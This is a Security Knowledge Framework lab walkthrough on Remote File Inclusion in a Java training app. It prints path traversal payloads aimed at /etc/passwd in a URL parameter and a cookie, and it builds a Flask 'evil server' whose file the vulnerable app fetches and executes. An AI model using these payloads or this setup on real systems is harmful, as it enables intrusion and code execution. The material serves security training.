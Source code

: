 # KBID 173 - Remote File Inclusion

## Running the app Java

First make sure java is installed on your host machine.
After installation, we go to the folder of the lab we want to practice.
"i.e /skf-labs/XSS, /skf-labs/RFI/" and run the following command:

```
$ ./mvnw spring-boot:run
```

{% hint style="success" %}
Now that the app is running let's go hacking!
{% endhint %}

## Reconnaissance

Remote File Inclusion (also known as RFI) is the process of including files, that are supplied into the application and loaded from an external (remote) source, through the exploiting of vulnerable inclusion procedures implemented in the application. This vulnerability occurs, for example, when a page receives, as input, the path to the file that has to be included and this input is not properly sanitized, allowing directory traversal characters (such as dot-dot-slash) to be injected. Although most examples point to vulnerable PHP scripts, we should keep in mind that it is also common in other technologies such as JSP, ASP and others.

Warning: To successfully test for this flaw, the tester needs to have knowledge of the system being tested and the location of the files being requested. There is no point requesting /etc/passwd from an IIS web server.

Some Examples:

```text
http://example.com/getUserProfile.jsp?item=../../../../etc/passwd

Cookie: USER=1826cc8f:PSTYLE=../../../../etc/passwd
```

## Exploitation

The File Inclusion vulnerability allows an attacker to include a file, usually exploiting a "dynamic file inclusion" mechanisms implemented in the target application. The vulnerability occurs due to the use of user-supplied input without proper validation.

This can lead to something as outputting the contents of the file, but depending on the severity, it can also lead to:

Code execution on the web server

Code execution on the client-side such as JavaScript

which can lead to other attacks such as:

Cross-site scripting (XSS)

Denial of Service (DoS)

Sensitive Information Disclosure

Let us see how can we exploit the file inclusion vulnerability in a real world scenario, the application here allows us to run 2 commands from the drop down list. One is running Date and the other is Calendar.

![](../../.gitbook/assets/java/RFI/1.png)

![](../../.gitbook/assets/java/RFI/2.png)

When we will have a look in our intercepting proxy we can see that the application uses a predefined file that contains the command to execute and prints the results of it.

![](../../.gitbook/assets/java/RFI/3.png)

Creating your own webserver: In this case you can use nodeJs express to create a small webserver that serves your file. We name it evil_server.py

```python
from flask import Flask, request, url_for, render_template, redirect


app = Flask(__name__)
app.config['DEBUG'] = True

@app.route("/evil.txt")
def start():
    return render_template("evil.txt")

if __name__ == "__main__":
    app.run(host='0.0.0.0', port=1337)
```

Install dependencies:

```
$ pip3 install flask
```

Then we create a file evil.txt and put the content below

```text
whoami
```

Now we are ready to start our evil_server.py and try to make the application load our evil file and hopefully it will get executed.

```
$ python3 evil_server.py
```

Our remote file inclusion worked and the application seems to load javascript files and eval() the content of them.

![](../../.gitbook/assets/java/RFI/4.png)

Success! As we observed, we can include our own files through RFI.

## Additional sources

{% embed url="https://www.owasp.org/index.php/Testing_for_Remote_File_Inclusion" %}

